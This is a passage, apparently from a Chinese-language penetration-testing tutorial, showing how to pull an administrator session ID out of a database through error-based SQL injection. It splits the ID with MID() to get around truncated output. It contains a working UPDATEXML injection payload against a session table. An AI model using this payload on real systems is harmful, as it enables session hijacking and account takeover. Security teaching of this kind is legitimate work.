 屏幕上没有显示最后三个十六进制值为`ABC`的字符。为了解决这个问题，我们可以使用一种变通方法，不使用单个查询从数据库检索会话，而是使用`MID()`函数将会话分为两部分。

需要使用的第一个 SQL 会话负载`1`如下：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,1,15) FROM ntnsi_session where userid!=0 order by time desc LIMIT 1),0x414243),4879))
```

具体情况如下：

![](img/c6cfd060-c8b2-466f-9284-9ebc8ca73aa8.png)

下面的屏幕截图给出了执行前面的 SQL 有效负载`1`的结果：

![](img/14d81c3c-c996-49d4-ae29-f0d8d387f41f.png)
